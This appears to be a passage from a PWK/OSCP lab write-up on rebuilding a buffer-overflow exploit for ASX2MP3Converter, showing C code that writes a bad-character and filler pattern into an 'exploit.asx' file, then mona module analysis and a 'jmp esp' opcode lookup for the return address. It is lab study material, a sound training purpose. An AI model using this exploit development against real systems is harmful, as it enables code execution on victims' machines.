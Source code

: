 ```c
                        "\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
                        "\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd"
                        "\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6"
                        "\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44"
                        "\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44\x44";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

### Finding a Return Address
Run `!mona modules`. We ssee that ASX2MP3Converter.exe has Rebase, SafeSEH, ASLR, NXCompat, and OSDll disabled. The only other module with similar status is `MSA2Mutility03.dll` and it loads at a suitable address that does not contain our bad chars 0x10000000
![f5f390a5b9bca6d4088abdc9d28f96ab.png](:/64fc57287b8e4fd884f851bd22cc998e)

Let's get the opcode for jumping to the stack pointer
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msf-nasm_shell 
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > 
```
